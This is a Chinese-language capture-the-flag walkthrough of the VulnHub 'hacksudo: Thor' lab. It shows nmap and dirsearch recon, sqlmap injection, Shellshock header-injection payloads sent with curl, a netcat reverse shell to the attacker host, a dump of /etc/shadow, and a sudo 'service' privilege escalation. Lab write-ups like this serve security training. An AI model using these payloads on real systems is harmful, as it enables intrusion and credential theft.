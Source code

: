 靶机地址：[hacksudo: Thor ~ VulnHub](https://www.vulnhub.com/entry/hacksudo-thor,733/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.39
sudo nmap -p21,22,80 -sV 192.168.1.39
# 21/tcp filtered ftp
# 22/tcp open     ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
# 80/tcp open     http    Apache httpd 2.4.38 ((Debian))
```
先访问Web服务看看，是一个登录页面，简单试了一下，没发现什么问题
web路径扫描
```Shell
sudo dirsearch -u http://192.168.1.39
# 200 -    4KB - /README.md
# 200 -    1KB - /admin_login.php
# 403 -  277B  - /cgi-bin/
```
发现了项目托管在了github上，看一下源码，有sql文件，获取到账号密码
```SQL
INSERT INTO `admin` VALUES (1,'admin','password123');
```
登一下后台 `/admin_login.php` 试试，成功登录系统
后台中可以看到用户信息
```
zakee94    nafees123
salman     salman123
tushar     tushar123
jon        snow123
```

用户管理页面的搜索功能存在sql注入
```Shell
sqlmap -r req.txt -p "search" --dbs --dbms=mysql --time-sec=1 --threads=8
# hacksudo
sqlmap -r req.txt -p "search" -D "hacksudo" --tables --dbms=mysql --time-sec=1 --threads=8
```

对 `/cgi-bin/` 进行路径扫描
```Shell
sudo dirsearch -u http://192.168.1.39/cgi-bin/ -f -e cgi,sh
# 500 -  610B  - /cgi-bin/backup.cgi
# 500 -  610B  - /cgi-bin/shell.sh
```
扫描是否存在破壳漏洞
```Shell
sudo nmap -p80 -sV --script http-shellshock --script-args uri=/cgi-bin/shell.sh,cmd=ls 192.168.1.39
# 可以利用
sudo nmap -p80 -sV --script http-shellshock --script-args uri=/cgi-bin/backup.cgi,cmd=id 192.168.1.39
# 可以利用
```
扫描结果显示可以通过标头投毒来利用破壳漏洞
```Shell
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'which nc'" http://192.168.1.39/cgi-bin/shell.sh
```
反弹shell
```Shell
curl -H "X-Frame-Options: () { :; }; echo; /bin/bash -c 'nc -e /bin/bash 192.168.1.26 4444'" http://192.168.1.39/cgi-bin/shell.sh
# 或
curl -H "x: () { :; }; echo; /bin/bash -c 'nc -e /bin/bash 192.168.1.26 4444'" http://192.168.1.39/cgi-bin/shell.sh
```
成功获取到 `www-data` 的shell，接下来尝试提权
```Shell
ls -l /etc/passwd
cat /etc/passwd | grep /bin/bash
# root:x:0:0:root:/root:/bin/bash
# thor:x:1001:1001:,,,:/home/thor:/bin/bash
sudo -l
# (thor) NOPASSWD: /home/thor/./hammer.sh
```
尝试一下
```Shell
sudo -u thor /home/thor/./hammer.sh
# Enter Thor  Secret Key : abc
# Hey Dear ! I am abc , Please enter your Secret massage : hello
```
提示需要输入密钥第一个随便输，第二个可以输入命令
```
Enter Thor  Secret Key : abc
Hey Dear ! I am abc , Please enter your Secret massage : id
uid=1001(thor) gid=1001(thor) groups=1001(thor)
```
试试直接获取shell
```
Enter Thor  Secret Key : abc
Hey Dear ! I am id , Please enter your Secret massage : bash
```
成功获取到shell
```Shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
# (root) NOPASSWD: /usr/bin/cat, /usr/sbin/service
```
尝试一下
```Shell
sudo cat /etc/shadow
# root:$6$1YV0h.2rYTAvcB.o$cLPgAevmbnBo8dtADheWYcIfGLg157gfrCzZsKqv268MDkimBW7JcnQK6sI79fXsa1Hm5GmP8Kni05w.2nJfc0:18838:0:99999:7:::
```
可以考虑破解 `root` 密码
`service` 命令可以直接提权
```Shell
sudo service ../../bin/bash
```
提权成功

尝试其它提权
```Shell
cd /tmp
export PATH=$PATH:/tmp
```